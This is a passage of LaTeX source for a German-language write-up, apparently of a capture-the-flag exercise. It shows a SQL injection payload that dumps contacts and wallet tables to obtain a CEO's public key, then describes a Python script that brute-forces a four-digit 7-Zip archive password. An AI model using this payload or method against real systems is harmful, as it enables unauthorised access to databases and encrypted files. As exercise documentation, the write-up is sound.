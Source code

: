 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\begin{lstlisting}
  *%' or 1 = 1) union all select id, name, name, pub_key, name, name from contacts union all select id, amount, last_used, pub_key, active, active from wallet--
\end{lstlisting}

Da ich also schon alle relevanten Daten aufgelistet habe, konnte ich den Eintrag des CEO einfach suchen und dessen \lstinline{public key} auslesen.

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.95\textwidth]{./imgs/manager9000/ceo_pub_key.png}
\caption{Public key des CEO}
\label{fig:ceo_pub_key}
\end{figure}

\pagebreak
\section{Scriptkiddie 101}

\subsection{Kompromitierte Sicherheit}



Ich habe dieses Python geschrieben das als erstes Argument den Pfad zur \lstinline{.7z} Datei annimmt und mit \lstinline{7zip.exe} das 4-stellige Zahlen Passwort Brute-Forced.

Globale Variablen
\begin{itemize}
    \item found: Ob das Passwort gefunden worden ist
    \item start: Von wo zu Probieren angefangen werden soll
    \item end: Bis wohin probiert werden soll
    \item file: Den Pfad zur 7zip Datei
\end{itemize}

\lstinline{run_sev_zip(pwd)} führt \lstinline{7zip.exe} mit dem gegebenen Passwort \lstinline{pwd} aus und gibt das Passwort aus wenn es richtig war.

Zeile 15 ruft \lstinline{7zip.exe} mit dem \lstinline{e} auf (für extract) und der angegebenen Datei \lstinline{file}. Nach dem Start wird per pipe das Passwort über stdin übergeben. Damit das \lstinline{7zip} beim Aufruf weder auf stdout oder stdin nichts ausgibt pipe ich sämtlichen Output zum subprocess.
\end{document}
